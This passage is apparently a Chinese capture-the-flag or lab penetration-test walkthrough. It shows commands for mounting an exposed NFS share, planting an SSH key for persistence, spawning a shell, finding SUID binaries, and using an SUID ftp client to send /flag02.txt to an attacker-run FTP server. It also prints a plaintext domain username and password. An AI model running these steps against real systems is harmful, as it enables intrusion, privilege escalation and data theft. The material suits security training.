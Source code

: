 ![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217160639-4g1tzmw.png?imageSlim)​

```bash
mkdir temp
mount -t nfs 172.22.13.57:/ ./temp -o nolock
```

写入ssh公钥

```bash
ssh-keygen -t rsa -b 4096
cd /temp/home/joyce/
mkdir .ssh
cat /root/.ssh/id_rsa.pub >> /temp/home/joyce/.ssh/authorized_keys
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217161256-kxiv2hl.png?imageSlim)​

私钥连接ssh，起一个交互shell

```bash
ssh -i /root/.ssh/id_rsa joyce@172.22.13.57
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217163521-f3b0zdu.png?imageSlim)​

没有权限

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217163543-uwdmi0p.png?imageSlim)​

发现pAss.txt，先读一下，是个域内用户

```bash
xiaorang.lab/zhangwen\QT62f3gBhK1
```

suid提权

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217165632-eujmjj1.png?imageSlim)​

发现ftp有权限

回到172.22.13.14起ftp服务

```bash
exit

python3 -m pyftpdlib -p 6666 -u test -P test -w & 
```

再连回去

```bash
ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57 

ftp 172.22.13.14 6666

put /flag02.txt
```
